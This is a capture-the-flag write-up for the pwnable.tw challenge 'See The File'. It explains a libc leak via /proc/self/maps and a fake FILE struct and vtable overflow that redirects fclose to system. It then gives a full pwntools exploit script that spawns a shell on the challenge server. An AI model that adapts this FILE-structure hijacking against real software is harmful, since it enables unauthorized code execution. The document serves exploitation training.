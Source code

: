 # See The File
> LongChampion, 26/03/2020

## Ideal
- First, we read `/proc/self/maps` to leak `libc_base` (this is an awesome trick)
- Then, we overflow `name` variable to create a fake `vtable` and a fake `FILE struct`
- Change in memory layout is explainted as below:
```
+ - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - +
|           your_name(32 bytes)           | fp (4 bytes) | other segments                           |   old layout
+ - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - +
| fake vtable (contains only system_addr) | fake_fp_ptr  | fake FILE struct (76 bytes) | vtable_ptr |   new layout
+ - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - +
    ^                                            |          ^                                 |
    |                                            `- - - - - '                                 |
    `- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -'
```
- When `fclose` is called, it will look at our fake `FILE struct`, then dereference our fake `vtable` via fake `vtable_ptr` at the end of `FILE struct`.
- Because we have filled `vtable` with `system_addr` (or one_gadget if you want),  it will call `system(fake FILE struct)` no matter what function `fclose` really need to call.

## Final Solution
```python
#!/usr/bin/env python2

from pwn import *

r = remote("chall.pwnable.tw", 10200)

name_addr = 0x0804B260
fp_addr = 0x0804B280
system_addr = 0x0003A940


def Open(filename):
    r.sendlineafter("Your choice :", "1")
    r.sendlineafter("What do you want to see :", filename)
    text = r.recvuntil("MENU")
    return "Open Successful" in text


def Read():
    r.sendlineafter("Your choice :", "2")
    text = r.recvuntil("MENU")
    return "Read Successful" in text


def Show():
    r.sendlineafter("Your choice :", "3")


def Close():
    r.sendlineafter("Your choice :", "4")


Open("/proc/self/maps")
Read()
Show()
Read()
Show()
text = r.recvline_contains("libc").split('-')[0]
libc_base = int(text, 16)
log.info("libc_base: " + hex(libc_base))
Close()

system_addr += libc_base
myname = p32(system_addr) * 8 + p32(fp_addr + 4)
fake_fp = p32(0x80808080) + ";sh;\0\0\0\0" * 9 + p32(name_addr)
r.sendlineafter("Your choice :", "5")
r.sendlineafter("Leave your name :", myname+fake_fp)
r.interactive()
```
